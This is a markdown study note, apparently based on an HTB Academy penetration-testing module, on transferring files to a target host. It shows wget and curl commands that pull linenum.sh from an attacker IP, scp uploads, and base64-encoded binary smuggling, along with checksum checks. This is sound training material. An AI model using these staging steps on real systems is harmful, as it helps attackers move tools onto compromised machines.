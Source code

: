 ```yaml
---
id: Transferring Files
aliases: []
tags: []
---
```


# Transferring files

- [HTB Academy - Transferring Files](https://academy.hackthebox.com/module/77/section/849)

## Python HTTP Server

Run a [Python HTTP Server](https://developer.mozilla.org/en-US/docs/Learn_web_development/Howto/Tools_and_setup/set_up_a_local_testing_server)
on the attacker machine and use **wget** or **curl** to download the file(s) to
the remote host.

```sh
python3 -m http.server 8000
```

Acquire the files from the remote host

```sh
wget http://10.10.14.1:8000/linenum.sh
```

```sh
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
```

## SCP

It is possible to transfer files using `scp` once

- SSH connection is established
- User credentials are known

**Attacker**: Copy the file to the remote machine

```sh
scp linenum.sh user@remotehost:/tmp/linenum.sh
```

## Base64

It may be not possible to transfer files if (for example) the remote host has
firewall protection.

**Attacker**: Encode the binary file to base64

```sh
base64 file.ext -w 0
```

**Target**: Copy the base64 string, decode it, and pipe it into a file

```sh
echo f0VMRgIBAQAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaiXSInmDwU | base64 -d > file.ext
```

## Validate File Transfers

Validate the format of the file

```sh
file file.ext
```

**Attacker**: Run a `md5sum` on the file

```sh
md5sum file.ext

321de1d7e7c3735838890a72c9ae7d1d file.ext
```

**Target**: Run `md5sum` to validate the hash

```sh
md5sum file.ext

321de1d7e7c3735838890a72c9ae7d1d file.ext
```
